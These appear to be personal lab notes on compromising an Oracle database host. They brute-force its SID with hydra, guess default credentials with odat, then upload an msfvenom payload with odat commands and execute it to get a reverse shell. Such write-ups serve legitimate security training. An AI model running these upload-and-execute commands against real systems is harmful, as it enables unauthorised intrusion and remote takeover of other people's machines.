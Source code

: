## Takeaway
- Don't get stuck on tools that you familiar with. If it does not work, get a new one that works.
- https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener
## Metadata
- Using `hydra` to brute-force SID of Oracle Database.![[Pasted image 20231223184839.png]]
- With valid SID, one can use `odat` to brute-force credentials to find a valid default credential pair `scotty:tiger`![[Pasted image 20231223184858.png]]
#### Attack Path
- <mark>Exploitation</mark>
	- Generate payload with `msfvenom` and upload onto victim host with `odat` command `./odat utlfile -s 10.10.10.82 -U scott -P tiger -d XE --putFile C://Users payload.exe ../../payload.exe --sysdba`![[Pasted image 20231223192121.png]]
	- Execute the payload with another `odat` command `./odat externaltable  -s 10.10.10.82 -U scott -P tiger -d XE --exec "C:\Users" "payload.exe" --sysdba` to receive reverse shell.